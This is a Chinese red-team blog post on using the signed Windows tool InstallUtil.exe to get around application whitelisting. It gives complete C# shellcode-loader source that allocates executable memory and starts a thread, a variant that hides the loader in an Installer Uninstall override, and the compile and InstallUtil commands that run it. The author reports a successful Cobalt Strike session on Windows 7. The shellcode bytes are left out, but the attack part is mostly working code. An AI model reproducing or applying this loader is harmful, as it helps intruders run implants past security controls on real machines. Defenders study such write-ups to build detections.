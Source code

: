 ```yaml
---
layout:     post
title:    白名单-InstallUtil的利用
subtitle:   InstallUtil的利用
date:       2020-02-01
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 白名单
    - 红队
    - 内网渗透
---
```

# 白名单-InstallUtil的利用

## 简介
InstallUtil（安装程序工具）是一个命令行工具，你可以通过此工具执行指定程序集中的安装程序组件，从而安装和卸载服务器资源。 此工具与 System.Configuration.Install 命名空间中的类配合使用。  
需要注意的是这个工具所在的路径没有添加到系统的PATH中，所以需要给上全路径去执行。  
InstallUtil.exe路径，我测试环境是win7，win10下内存会报错不知道为什么，win7的路径是：***C:\Windows\Microsoft.NET\Framework\v4.0.30319\***。   
常用参数就4个：   
- /h 帮助  
- /LogFile=[filename] 指定在其中记录安装进度的日志文件的名称。 如果省略 /LogFile 选项，则会默认创建名为 程序名.InstallLog 的日志文件，里面包含了一些详细信息  
- /LogToConsole={true or false} 是否将日志信息输出到控制台
- /u[ninstall] 卸载指定程序集  

其他详细的可以看官方文档：[https://docs.microsoft.com/zh-cn/dotnet/framework/tools/installutil-exe-installer-tool?redirectedfrom=MSDN](https://docs.microsoft.com/zh-cn/dotnet/framework/tools/installutil-exe-installer-tool?redirectedfrom=MSDN)。  

## 测试
先写一个C#的测试代码，用来加载shellcode：  
```
using System;
using System.IO;
using System.Collections.Generic;
using System.Text;
using System.Threading.Tasks;
using System.Runtime.InteropServices;


namespace RunShellCode
{
    public class shellcodeload
    {
        public static void Main()
        {
            byte[] shellcode = new byte[] { .......... }; //添加要加载的shellcode
            
            UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;

            // Prepare data
            IntPtr pinfo = IntPtr.Zero;

            // Invoke the shellcode
            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static UInt32 MEM_COMMIT = 0x1000;
        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

        [DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(
            UInt32 lpStartAddr,
            UInt32 size,
            UInt32 flAllocationType,
            UInt32 flProtect
        );

        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId
        );

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(
            IntPtr hHandle,
            UInt32 dwMilliseconds
        );
    }
}
``` 
编译的时候用csc直接编译：  
```
csc.exe  /out:1.exe 1.cs
```
如果没有问题应该是能上线的，但是有时候执行会显示 Access is denied。  
这时候可以尝试用InstallUtil来绕过。  
修改下这个代码： 
```
using System;
using System.IO;
using System.Collections.Generic;
using System.Text;
using System.Threading.Tasks;
using System.Runtime.InteropServices;


namespace RunShellCode
{

    public class ABswsd
    {
        public static void Main()
        {
            Console.WriteLine("test");
        }
    }
    [System.ComponentModel.RunInstaller(true)]
    public class wdi2nS2dwS : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary SaveState)
        {
            Console.WriteLine("Run shellcode");
            shellcodeload.MsdwsdSAsdw();
        }
    }
    public class shellcodeload
    {
        public static void MsdwsdSAsdw()
        {
            byte[] shellcode = new byte[] { .......... }; //添加要加载的shellcode
            
            UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;

            // Prepare data
            IntPtr pinfo = IntPtr.Zero;

            // Invoke the shellcode
            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static UInt32 MEM_COMMIT = 0x1000;
        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

        [DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(
            UInt32 lpStartAddr,
            UInt32 size,
            UInt32 flAllocationType,
            UInt32 flProtect
        );

        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId
        );

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(
            IntPtr hHandle,
            UInt32 dwMilliseconds
        );
    }
}
```
同样的先编译，然后用InstallUtil安装卸载。  
```
InstallUtil.exe  /LogtoConsole=false /U 1.exe
```
可以加上/logfile=，这样不会有日志文件输出，我测试的时候为了方便排查所以加上了。   
我这里测试了加载cs的shellcode。  
win10测试失败了，内存问题。。。   
![200201_1](/img/200201_win10fail.png)  
win7下测试可以上线。  
![200201_2](/img/200201_win7.png)  

## 总结
绕来绕去其实也是个老技术，大概就是没东西写了？同文件夹下好友好几个这样用来安装注册的，后面接续写。   

## 参考
[https://micro8.github.io/Micro8-HTML/Chapter1/71-80/72_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Installutil.exe%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E4%BA%8C%E5%AD%A3.html](https://micro8.github.io/Micro8-HTML/Chapter1/71-80/72_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Installutil.exe%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E4%BA%8C%E5%AD%A3.html)
